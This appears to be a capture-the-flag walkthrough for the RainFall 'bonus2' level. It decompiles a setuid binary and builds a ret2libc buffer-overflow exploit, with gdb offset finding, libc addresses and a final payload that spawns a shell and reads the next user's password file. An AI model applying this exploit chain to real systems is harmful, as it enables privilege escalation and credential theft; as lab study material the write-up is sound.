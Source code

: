 Bonus2 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
```

Bonus2 rights:
```Shell
bonus2@RainFall:~$ ls -la bonus2
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```

Testing:
```Shell
bonus2@RainFall:~$ ./bonus2 KIKI KOKO
Hello KIKI
bonus2@RainFall:~$ ./bonus2 KIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIKI KOKO
Hello KIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIKOKO
```

Let's decompile it with Hex-Rays on https://dogbolt.org/ and see what is there:
- it takes two arguments, of max size 40-bytes and 32-bytes
- it makes calls to `strcat()` and `strcpy()`, as well as a call to `greetuser()`
- it uses an environment variable to set the language of your choice

Unfortunately, there is no easy way to open a shell. So we decided to try a `ret2libc` attack. For this, we need to:
- find the size of our payload to know to find where to overwrite `EIP`
- find the addresses of `system()`, `exit()` (this is not necessary, but it is better practice for exiting cleanly) and the string `/bin/sh`

Since the first arg is 40-bytes, we can just pad the whole thing with `A`s and generate a pattern for the second arg:
```Shell
(gdb) run
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```
This gives us an offset of 18, which added to the previous 40 bytes equals to 58. It means that the second arg will start with a padding of 18 `A`s.

Next, let's find all the addresses we need.
`system()` is \xb7\xe6\xb0\x60:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

`/bin/sh` is \xb7\xf8\xcc\x58:
```Shell
(gdb) find &system,+9999999,"/bin/sh"  
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

And `exit()` is \xb7\xe5\xeb\xe0:
```Shell
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

And this is the result:
```Shell
bonus2@RainFall:~$ ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 18 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X���
$ cat /home/user/bonus3/.pass
```
